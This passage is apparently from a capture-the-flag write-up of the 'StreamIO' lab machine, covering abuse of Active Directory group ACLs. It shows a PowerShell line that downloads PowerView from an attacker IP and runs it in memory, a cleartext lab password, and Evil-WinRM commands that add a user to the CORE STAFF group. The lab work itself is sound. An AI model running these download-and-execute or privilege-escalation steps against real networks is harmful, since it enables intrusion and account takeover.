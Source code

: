 
In order to see that, we can use powerview (however `Get-ObjectAcl` might suffice which was probably already imported with LAPSToolkit.ps1)

```
Get-ObjectAcl -Name "CORE STAFF" -ResolveGUIDs
```

And there it is:
![picture 59](/assets/images/b4298d47745f37afc358a22c4ab747a05644c7a34019a7dc6ef115f6f50ed0fa.png)  

## Leveraging JDgodd's credentials

JDgodd can write to the `CORE STAFF` group object.

JDgodd has no other groups apart from `Domain Users` so WINRM should not work BUT we still have to check the passwords that we've found before.

![picture 60](/assets/images/7629594c55a01fd70d9b3cefe2340fc29fbffb5f1d0f0da09a73620b7a05ae93.png)  

So let's put nikk37 into `CORE STAFF` group in `JDgodd`'s context:

ow I’ll need a credential object for JDgodd:
(new-object system.net.webclient).downloadstring('http://10.10.14.6/tools/powerview.ps1') | IEX

```
*Evil-WinRM* PS C:\Users\nikk37\Documents> $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\nikk37\Documents> $cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $pass)

*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\nikk37"

*Evil-WinRM* PS C:\Users\nikk37\Documents> net group "CORE STAFF" /domain
Group name     CORE STAFF
Comment

Members

-------------------------------------------------------------------------------
nikk37
The command completed successfully.
```

